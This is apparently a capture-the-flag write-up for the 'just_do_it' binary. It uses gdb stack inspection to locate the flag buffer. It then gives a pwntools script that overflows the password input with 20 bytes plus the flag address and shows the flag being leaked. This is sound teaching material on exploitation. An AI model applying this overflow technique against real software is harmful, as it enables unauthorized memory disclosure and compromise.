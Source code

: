 The man page for fgets states:
>The fgets() function shall read bytes from stream into the array pointed to by s until n-1 bytes are read, or a <newline> is read and transferred to s, or an end-of-file condition is encountered.

It has the following function prototype:
```c
char *fgets(char *restrict s, int n, FILE *restrict stream);
```
So remembering that arguments are passed in reverse order to the stack, `0x804a080` should be the char array where the flag file is being read into. We can confirm this by breaking on main<+141> and inspecting the stack:

```bash
0xffffd0c0│+0x0000: 0x0804a080  →  <flag+0000> add BYTE PTR [eax], al	 ← $esp
0xffffd0c4│+0x0004: 0x00000030 ("0"?)
0xffffd0c8│+0x0008: 0x0804b1a0  →  0xfbad2488
0xffffd0cc│+0x000c: 0x00000000
```

This means all we need to do now when prompted for our password is send 20 bytes appended with the address 0x804a080, and this will be passed to puts and print our flag! To see this in action we can modify the python script as follows:

```python
from pwn import *

target = process("./just_do_it") 
# gdb.attach(target)
# payload = b"P@SSW0RD" + b'\x00' 
exploit = b"A"* 20 + p64(0x804a080)

target.sendline(exploit)

target.interactive()

```
When we run the script we see the flag is printed now: 

```bash
root-at-iyn@Ubuntu-220403-x86-64:~/Nightmare/BufferOverflow/Variable/JustDoIt$ python3 ./exploit_justdoit.py 
[+] Starting local process './just_do_it': pid 27263
[*] Switching to interactive mode
Welcome my secret service. Do you know the password?
Input the password.
TWCTF{pwnable_warmup_I_did_it!}

[*] Got EOF while reading in interactive

```

